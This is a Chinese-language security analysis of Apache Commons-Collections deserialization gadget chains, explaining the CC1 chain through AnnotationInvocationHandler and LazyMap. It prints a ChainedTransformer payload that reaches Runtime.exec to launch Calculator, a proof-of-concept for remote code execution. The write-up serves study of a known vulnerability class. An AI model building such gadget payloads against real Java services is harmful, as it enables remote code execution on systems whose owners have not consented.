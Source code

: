 **一、Common-collections简介**
==========================

Apache Commons是Apache软件基金会的项目，曾经隶属于Jakarta项目。Commons的目的是提供可重用的、解决各种实际的通用问题且开源的Java代码。

二、Common-Collections 12个链分析
===========================

![1](https://shs3.b.qianxin.com/butian_public/f9bee6c5293b753f2421c47eb8cfb7e38.jpg)

**1.commons-collections1**
--------------------------

入口及关键点AnnotationInvocationHandler的readO bject以及Lazymap的get方法

<https://paper.seebug.org/1242/#commonscollections-1>

首先看后半段链，关键的一个接口commons collections中有一个Transformer接口，用来类型转换

```php

package org.apache.commons.collections;
public interface Transformer {
    O bject transform(O bject var1);
}

```

后半段链中三个关键类继承了这个接口

- org.apache.commons.collections.functors.InvokerTransformer
- org.apache.commons.collections.functors.ConstantTransformer
- org.apache.commons.collections.functors.ChainedTransformer

后半段链构造如下

```php
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[] {
                          String.class, Class[].class }, new O bject[] {
                          "getRuntime", new Class[0] }),
                  new InvokerTransformer("invoke", new Class[] {
                          O bject.class, O bject[].class }, new O bject[] {
                          null, new O bject[0] }),
                  new InvokerTransformer("exec",
                          new Class[] { String.class }, new O bject[]{"open  /System/Applications/Calculator.app"})});
```

最外层是一个ChainedTransformer，参数时一个Transformer数组，其transform方法实现了对每个传入的transformer都调用其transform方法，并将结果作为下一次的输入传递进去，我们传入的Transformer\[\]，也就是下面的this.iTransformers,会遍历这个数组，调用各自的transformer方法

![图片](https://shs3.b.qianxin.com/butian_public/f689a72f830f621df12ccda1399961e85.jpg)

接下来看数组的第一个元素ContstanTransformer，其transform方法将输入原封不动的返回，知道这个后回到cc后半段链的构造代码里，这里的this.iConstant 也就是Runtime.class将会返回，当作InvokerTransformer的transformer方法的执行参数
